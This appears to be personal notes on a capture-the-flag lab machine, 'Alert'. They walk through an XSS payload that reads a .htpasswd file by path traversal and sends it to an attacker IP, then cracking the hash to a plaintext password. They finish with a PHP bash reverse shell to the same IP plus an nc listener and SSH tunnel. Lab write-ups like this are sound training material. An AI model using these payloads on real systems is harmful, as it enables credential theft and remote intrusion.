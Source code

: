 

<script>

fetch("http://alert.htb/messages.php?file=../../../../var/www/statistics.alert.htb/.htpasswd")

  .then(response => response.text())

  .then(data => {

    fetch("http://10.10.15.37:8000/?file_content=" + encodeURIComponent(data));

  });

</script>

this payload we add into our post request 
`POST /visualizer.php HTTP/1.1`
`Host: alert.htb`
`Content-Length: 422`
`Cache-Control: max-age=0`
`Accept-Language: en-US,en;q=0.9`
`Origin: http://alert.htb`
`Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMxIOET2mw9LeUxCd`
`Upgrade-Insecure-Requests: 1`
`User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36`
`Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7`
`Referer: http://alert.htb/index.php?page=alert`
`Accept-Encoding: gzip, deflate, br`
`Connection: keep-alive`

`------WebKitFormBoundaryMxIOET2mw9LeUxCd`
`Content-Disposition: form-data; name="file"; filename="shell.php.md"`
`Content-Type: text/markdown`
`<script>`
`fetch("http://alert.htb/messages.php?file=../../../../var/www/statistics.alert.htb/.htpasswd")`
  `.then(response => response.text())`
  `.then(data => {`
    `fetch("http://10.10.15.37:8000/?file_content=" + encodeURIComponent(data));`
  `});`
`</script>`
`------WebKitFormBoundaryMxIOET2mw9LeUxCd--`

then we past link that we get from response
![[Pasted image 20250124193516.png]]
and past this into contact us page, befor this we need to start our server php or python no matter
then
we take our .htpasswd content 
![[Pasted image 20250124204639.png]]
%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A
decoded:
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
</pre>

this was cracked with hashcat:
manchesterunited - password for albert

after connecting to the alber in ssh  we found this
![[Pasted image 20250124211723.png]]
/opt/website-monitor/config

then we found active port on localhost, where working our monitoring
![[Pasted image 20250124220345.png]]

we create file in config dir shell.php
<?php exec("bash -c 'bash -i >& /dev/tcp/10.10.15.37/4444 0>&1'"); ?>

then we listening this port from our host
ssh -L 1234:localhost:8080 albert@10.10.11.44
in second terminal use nc
nc -lvnp 4444

open in browser http://localhost:1234/config/shell.php
